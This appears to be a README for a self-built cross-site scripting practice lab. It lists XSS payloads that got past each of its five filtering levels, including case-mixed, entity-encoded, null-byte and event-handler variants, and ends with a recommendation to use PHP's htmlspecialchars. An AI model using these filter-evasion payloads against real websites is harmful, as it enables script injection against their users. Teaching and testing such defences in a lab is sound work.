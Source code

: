 # How to perform Cross Site Scripting Attack in this Site
There are different payloads you can use to perform different kind of attacks and show different types of results in all 5 levels of XSS Attacks in this site.

## Payloads to Display all Data in the table using Conditional Statement
### Types of XSS Attacks:
- **Payload for Reflexive XSS:** *`<script>alert(“Reflected XSS”);</script>`*
- **Payload for DOM Based XSS:** *`<script>document.body.style.backgroundColor=“red”;</script>`*
- **Stored XSS:** Open `XSS_level6.html`

### Payloads for different levels
1. The following payloads worked in the first level only since it had very basic security: 
- `<script>alert(123);</script>`
- `<script>alert("XSS");</script>`
- `<script>alert(123)</script>`
- `<script>alert("hellox worldss");</script>` 
- `<script>alert(“XSS”)</script>`
- `<script>alert(“XSS”);</script>`
- `<script>alert(“XSS”)</script>`
- `<script>alert(/XSS/)</script>` 
- `<script>document.body.style.backgroundColor="red";</script>`

2. The following payloads worked in the second level as well as the first level as `<script>` was removed so previous tags didn’t work:
- `<IMG SRC=jAVasCrIPt:alert(“XSS”)>`
- `<IMG SRC=javascript:alert(“XSS”);>`
- `<IMG SRC=javascript:alert(&quot;XSS&quot;)>`
- `<IMG SRC=javascript:alert(“XSS”)>`
- `<img src=xss onerror=alert(1)>`
- `<iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>` 
- `<svg><style>{font-family&colon;'<iframe/onload=confirm(1)>'` 
- `<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"` 
- `<sVg><scRipt %00>alert&lpar;1&rpar; {Opera}` 
- `<audio src/onerror=alert(1)>`

3. The following payloads for second level also worked for third and fourth levels despite different security precautions taken:
- `<iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>` 
- `<svg><style>{font-family&colon;'<iframe/onload=confirm(1)>'` 
- `<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"`
- `<sVg><scRipt %00>alert&lpar;1&rpar; {Opera}` 
- `<audio src/onerror=alert(1)>`
- `<video src=1 onerror=alert(1)>`
- `<audio src=1 onerror=alert(1)>`

4. The final level (fifth level) prevents all kind of attacks and none of the payloads work as any kind of HTML scripts are removed.

5. While the fifth level stops the attack, a better method would be to use the `htmlspecialchars` function inbuilt in PHP.